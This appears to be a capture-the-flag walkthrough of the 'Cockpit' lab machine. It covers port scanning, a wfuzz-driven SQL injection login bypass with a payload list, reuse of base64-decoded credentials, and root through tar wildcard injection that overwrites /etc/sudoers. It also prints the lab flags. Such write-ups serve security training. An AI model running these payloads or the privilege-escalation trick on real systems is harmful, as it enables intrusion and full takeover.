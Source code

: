 `Running all scans on 192.168.190.10`

`Host is likely running Unknown OS!`

`---------------------Starting Port Scan-----------------------`

`PORT     STATE SERVICE`
`22/tcp   open  ssh`
`80/tcp   open  http`
`9090/tcp open  zeus-admin`

Port 80 nmap with http-enum script
`| http-enum:` 
`|   /login.php: Possible admin folder`
`|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'`
`|   /img/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'`
`|_  /js/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'

Port 9090 is a web login form
![[Pasted image 20240209203443.png]]

Tried the basic weak admin:admin, admin:password - no success.

Putting this into the username field of login.php on port 80 it shows MySQL error.
`admin' UNION SELECT username || '~' || password FROM users--`

So we have SQL injection.

In the Seclists wordlists, we have seclists/Fuzzing/Databases/MySQL.fuzzdb.txt

Fuzzing with this doesn't work so let's look at the other MySQL wordlist.  /usr/share/seclists/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt

![[Pasted image 20240209203942.png]]
Clean this up. 
`└─$ cat fuzz.txt`                                                                
`' OR 1=1--`
`'OR '' = '`
`'--`
`' union select 1, 'id', 'password' 1--`
`'OR 1=1--`

FUZZ

`─$ wfuzz -c -z file,fuzz.txt -d "username=FUZZ&password=test" --follow "http://192.168.190.10/login.php"`
 `/usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.`
`********************************************************`
* `Wfuzz 3.1.0 - The Web Fuzzer                         *`
`********************************************************`

`Target: http://192.168.190.10/login.php`
`Total requests: 5`

`=====================================================================`
ID           Response   Lines    Word       Chars       Payload                                                                                                       
=====================================================================

`000000004:   200        15 L     82 W       810 Ch      "' union select 1, 'id', 'password' 1--"`                                                                      
`000000005:   200        15 L     82 W       807 Ch      "'OR 1=1--"`                                                                                                   
`000000003:   200        15 L     82 W       809 Ch      "'--"`                                                                                                         
`000000001:   200        10 L     28 W       233 Ch      "' OR 1=1--"`                                                                                                  
`000000002:   200        49 L     71 W       976 Ch      "'OR '' = '"`                                                                                                  

`Total time: 0`
`Processed Requests: 5`
`Filtered Requests: 0`
`Requests/sec.: 0`

We can eliminate the first 3 since the lines are the same. Let's try the last 2.

`'OR '' = '` gets us logged in.

![[Pasted image 20240209212946.png]]

`┌──(user㉿kalipurple)-[~/Offsec/ProvingGrounds/Cockpit]`
`└─$ echo 'Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=' | base64 -d`           
`canttouchhhthiss@455152`                                                                                                                                                                               
`┌──(user㉿kalipurple)-[~/Offsec/ProvingGrounds/Cockpit]`
`└─$ echo 'dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy' | base64 -d` 
`thisscanttbetouchedd@455152` 

Try these again in 192.168.190.10/login.php but they don't work there.
Try the other login form we found on port 9090.

james:canttouchhhthiss@455152 works and we're in.

We see terminal in the menu, let's see what we can do.
![[Pasted image 20240209213328.png]]

`james@blaze:~$ sudo -l`
`Matching Defaults entries for james on blaze:`
    `env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin`

`User james may run the following commands on blaze:`
    `(ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *`

We can run tar with sudo but we're limited by the asterisk.

We find this in google:
https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa

It's possible to create 2 files that will execute when being tar'd. The 2nd file can execute another script.

`echo "" > '--checkpoint=1'`
`echo "" > '--checkpoint-action=exec=sh privesc.sh'`

`echo 'james ALL=(root) NOPASSWD: ALL' > /etc/sudoers`

Make the files, execute, get root, and get the flags.

`james@blaze:~$ echo "" > '--checkpoint=1'^C`
`james@blaze:~$ cd /tmp`
`james@blaze:/tmp$ mkdir new`
`james@blaze:/tmp$ cd new`
`james@blaze:/tmp/new$ echo "" > '--checkpoint=1'`
`james@blaze:/tmp/new$ echo "" > '--checkpoint-action=exec=sh privesc.sh'`
`james@blaze:/tmp/new$ vi privesc.sh`
`james@blaze:/tmp/new$ cat privesc.sh`
`#!/bin/bash`

`echo 'james ALL=(root) NOPASSWD: ALL' > /etc/sudoers`
`james@blaze:/tmp/new$ sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *`
`privesc.sh`
`james@blaze:/tmp/new$ sudo su -`
`root@blaze:~# cat /root/proof.txt`
`9422692c03028ba3e06f210cdbf61161`
`root@blaze:~# cat /home/james/local.txt`
`05355a7004e846fe37b859eaade90f27`

